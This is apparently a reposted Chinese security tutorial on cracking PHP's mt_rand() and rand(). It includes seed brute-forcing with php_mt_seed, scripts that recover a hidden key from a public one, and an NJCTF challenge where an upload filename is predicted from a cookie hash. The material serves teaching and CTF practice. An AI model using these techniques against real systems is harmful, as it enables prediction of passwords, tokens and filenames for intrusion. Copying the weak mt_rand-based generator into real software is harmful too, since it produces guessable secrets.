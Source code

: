 # php mt_rand 函数的安全问题探讨

> 原文：[http://book.iwonder.run/0day/Php/4.html](http://book.iwonder.run/0day/Php/4.html)

## mt_rand() 函数的安全性问题

```
php -r 'echo getrandmax()."\n".mt_getrandmax()."\n"; echo (pow(2,31)-1)."\n";' 
```

![image](img/ab672eafa28f65c36300e2582865db09.png)

在我的 linux 64 位系统中,rand() 和 mt_rand() 产生的最大随机数都是 2147483647, 正好是 2^31-1 , 也就是说随机播种的种子也是在这个范围中,0 – 2147483647 的这个范围是允许我们进行爆破的. 但是用 php 爆破比较慢

这里放一个爆破 poc 的 d 地址

php_mt_seed 爆破程序 [https://github.com/ianxtianxt/php-mt_rand](https://github.com/ianxtianxt/php-mt_rand)

下面演示一下它的用法:

![image](img/7b2c63775761ff4502b11d4daef75714.png)

在例子中,我没有自己播种种子,而是让 php 自动去播种一个种子并产生一个随机数,然后用 php_mt_seed 这个工具把产生的随机数作为参数,去爆破种子,最后的得到了四个结果. 经过验证,四个结果都是对的.都会产生这样的一个随机数.

但是还有一个疑问,就是 php manual 中说,自动播种种子是指:在每次调用 mt_rand()函数之前都播种一次种子呢,还是多次调用 mt_rand()函数之前,只播种一次种子呢,这对于我们能否猜到产生的随机数序列至关重要.

看下面的测试:

![image](img/e69755e82f27a65116fbed49d24740b7.png)

在测试中,在没有进行手工播种的情况下产生两个连续的随机数,然后去爆破种子,得到了四个可能种子,经过测试发现其中一个种子产生的随机数序列和预期的相同,所以可以猜想在 php 中产生一系列的随机数时,只进行了一次播种!

那请考虑下面代码的安全性:

```
<?php
function wp_generate_password($length = 12, $special_chars = true) {
  $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
  if ( $special_chars )
  $chars .= '!@#$%^&*()';

  $password = '';
  for ( $i = 0; $i < $length; $i++ )
  $password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
  return $password;
}
$key = wp_generate_password(16, false);
echo "[*] This is a key for public:".$key."\n";

$private = wp_generate_password(10,false);
echo "[*] Create a private key which you don't know:".$private."\n";
?> 
```

我们是否可以根据公开的 key,猜到 $private 呢?

运行一次上面的代码:

```
njctf$ php mtRand.php
[*] This is a key for public:uS66FDD9LCR62UV3
[*] Create a private key which you don\'t know:t3JSUHzYAv 
```

下面演示破解过程,首先获得 public key 在每一位在字符串中的位置:

```
<?php
$str = "uS66FDD9LCR62UV3";
$randStr = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";

for($i=0;$i<strlen($str);$i++){
   $pos = strpos($randStr,$str[$i]);
   echo $pos." ".$pos." "."0 ".(strlen($randStr)-1)." ";
   //整理成方便 php_mt_seed 测试的格式
  //php_mt_seed VALUE_OR_MATCH_MIN [MATCH_MAX [RANGE_MIN RANGE_MAX]]
}
echo "\n";
?> 
```

然后用 php_mt_seed 进行破解,这个需要的时间还是挺长的,几分钟左右.

![image](img/8a95fa97e44d757b067feb51912cb34f.png)

已经成功的破解了一个 seed,下面看这个 seed 对不对:

```
<?php
function wp_generate_password($length = 12, $special_chars = true) {
  $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
  if ( $special_chars )
  $chars .= '!@#$%^&*()';

  $password = '';
  for ( $i = 0; $i < $length; $i++ )
  $password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
  return $password;
}
mt_srand(4030923041); //手工添加了这个种子
$key = wp_generate_password(16, false);
echo "[*] This is a key for public:".$key."\n";
$private = wp_generate_password(10,false);
echo "[*] Create a private key which you don't know:".$private."\n";
?> 
```

跟刚才的结果一模一样 :

![image](img/e142c4760d00003b4760126d8eca032d.png)

这样就说明了,我们只需要拿到 public key,就可以预测到 private key 的值了.

但是在有的一些环境中，public key 可能在 private key 之后产生，但是知道 private key 的位数 怎么预测 private key 呢？ 强大的 php_mt_seed_4.0,支持一些统配的写法，把未知的都写成参数 0 0 0 0 就可以了 php_mt_seed 详细的使用说明。它就会跳过前面的 mt_rand()的一些输出，直接匹配后面的：

下面测试我们获得了 private key，来猜测 public key 的情况。

```
<?php
 # mtRand.php
$str = "t3JSUHzYAv";
$randStr = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";

for($i=0;$i<strlen($str);$i++){
   $pos = strpos($randStr,$str[$i]);
   echo $pos." ".$pos." "."0 ".(strlen($randStr)-1)." ";
   //整理成方便 php_mt_seed 测试的格式
  //php_mt_seed VALUE_OR_MATCH_MIN [MATCH_MAX [RANGE_MIN RANGE_MAX]]
}
echo "\n";
?> 
```

下面就开始破解：

```
➜  Desktop echo  $(python -c "print '0 '*64") $(php mtRand.php) | xargs   ~/script/php_mt_seed-4.0/php_mt_seed
Pattern: SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62
Version: 3.0.7 to 5.2.0
Found 0, trying 0xfc000000 - 0xffffffff, speed 65.2 Mseeds/s
Version: 5.2.1+
Found 0, trying 0xf0000000 - 0xf1ffffff, speed 5.5 Mseeds/s
seed = 0xf0430121 = 4030923041 (PHP 5.2.1 to 7.0.x; HHVM)
Found 1, trying 0xfe000000 - 0xffffffff, speed 5.5 Mseeds/s
Found 1 
```

可以看到破解得到的 seed 和之前的一样。

接下来看一个 njctf 中的一个例子,只贴部分关键代码:

```
<?php
function random_str($length = "32")
{
    $set = array("a", "A", "b", "B", "c", "C", "d", "D", "e", "E", "f", "F",
        "g", "G", "h", "H", "i", "I", "j", "J", "k", "K", "l", "L",
        "m", "M", "n", "N", "o", "O", "p", "P", "q", "Q", "r", "R",
        "s", "S", "t", "T", "u", "U", "v", "V", "w", "W", "x", "X",
        "y", "Y", "z", "Z", "1", "2", "3", "4", "5", "6", "7", "8", "9");
    $str = '';
    for ($i = 1; $i <= $length; ++$i) {
        $ch = mt_rand(0, count($set) - 1);
        $str .= $set[$ch];
    }
    return $str;
}
session_start();

$seed = rand(0,999999999);
mt_srand($seed);
$ss = mt_rand();
$hash = md5(session_id() . $ss);
setcookie('SESSI0N', $hash, time() + 3600);

$filename = './uP1O4Ds/' . random_str() . '_' . $_FILES['file-upload-field']['name'];
?> 
```

我们的目标是猜测出 filename. 这里 $seed 是 rand(0,999999999)生成的,我们不知道,但是$hash = md5(session_id() . $ss);我们却是知道的,在 cookie 的 SESSION 中,当把 cookie 中的 PHPSESSID 设为空的时候,session_id()就也是空了,通过结 hash,就可以获得 mt_rand() 产生的第一个随机数,然后用 php_mt_seed 这工工具爆破种子,就可以直接算出文件名了.

rand() 函数的安全性问题 rand() 函数在产生随机数的时候没有调用 srand(),则产生的随机数是有规律可询的. 具体的说明请看这里[http://www.sjoerdlangkemper.nl/2016/02/11/cracking-php-rand/](http://www.sjoerdlangkemper.nl/2016/02/11/cracking-php-rand/) 产生的随机数可以用下面这个公式预测 : state[i] = state[i-3] + state[i-31] (一般预测值可能比实际值要差 1) 写下面测试代码,验证一下:

```
<?php
$randStr = array();
for($i=0;$i<50;$i++){  //先产生 32 个随机数
    $randStr[$i]=rand(0,30);
    if($i>=31) {
        echo  "$randStr[$i]=(".$randStr[$i-31]."+".$randStr[$i-3].") mod 31"."\n";
    }
}
?> 
```

看一下结果:

![image](img/aa1c0d4280d4f9422ae20411be408cf9.png)

发现预测的值,基本都是对的,这样就可以根据之前生成的随机数,预测之后产生的随机数.

